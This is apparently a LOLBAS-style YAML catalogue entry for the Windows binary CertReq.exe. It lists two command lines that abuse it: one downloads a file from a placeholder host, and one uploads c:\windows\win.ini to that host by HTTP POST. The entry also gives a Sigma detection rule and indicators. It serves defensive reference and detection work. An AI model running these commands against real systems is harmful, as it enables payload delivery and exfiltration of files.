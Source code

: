 ```yaml
---
Name: CertReq.exe
Description: Used for requesting and managing certificates
Author: 'David Middlehurst'
Created: 2020-07-07
Commands:
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
    Description: Save the response from a HTTP POST to the endpoint https://example.org/ as output.txt in the current directory
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini and show response in terminal
    Description: Send the file c:\windows\win.ini to the endpoint https://example.org/ via HTTP POST
    Usecase: Upload
    Category: Upload
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\certreq.exe
  - Path: C:\Windows\SysWOW64\certreq.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/eb8c9c046b86e7d412bdcc3235693fa1c00f70d6/rules/windows/process_creation/win_susp_certreq_download.yml
  - IOC: certreq creates new files
  - IOC: certreq makes POST requests
Resources:
  - Link: https://dtm.uk/certreq
Acknowledgement:
  - Person: David Middlehurst
    Handle: '@dtmsecurity'
---
```

